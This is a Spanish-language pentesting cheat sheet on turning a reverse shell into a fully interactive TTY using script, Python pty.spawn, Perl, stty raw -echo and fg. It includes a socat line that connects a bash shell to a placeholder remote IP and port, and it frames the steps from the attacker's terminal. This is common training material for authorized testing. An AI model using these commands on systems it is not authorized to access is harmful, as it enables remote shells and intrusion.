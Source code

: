 
## 🔧 Proceso Paso a Paso

### 1. Spawning de TTY inicial

```bash
# Generar una TTY usando script
script /dev/null -c bash
```

> [!tip] Alternativas para spawning TTY
> ```bash
> # Si Python está disponible
> python -c 'import pty; pty.spawn("/bin/bash")'
> python3 -c 'import pty; pty.spawn("/bin/bash")'
> 
> # Si Perl está disponible
> perl -e 'exec "/bin/bash";'
> 
> # Usando echo
> echo os.system('/bin/bash')
> 
> # Con socat (si está instalado)
> socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:IP:PORT
> ```

### 2. Suspender el proceso

```bash
# Enviar el proceso al background
Ctrl + Z
```

> [!warning] ¡No uses Ctrl+C!
> Ctrl+C terminaría la conexión completamente. Solo usa Ctrl+Z para suspender temporalmente.

### 3. Configurar modo raw

```bash
# En tu terminal local (atacante)
stty raw -echo; fg
```

> [!example] ¿Qué hace este comando?
> - **`stty raw`**: Pone el terminal en modo raw, pasando todos los caracteres directamente
> - **`-echo`**: Desactiva el eco local para evitar caracteres duplicados
> - **`fg`**: Trae el proceso suspendido al primer plano

### 4. Reactivar la shell

```bash
# Presionar Enter para reactivar
[Enter]
```
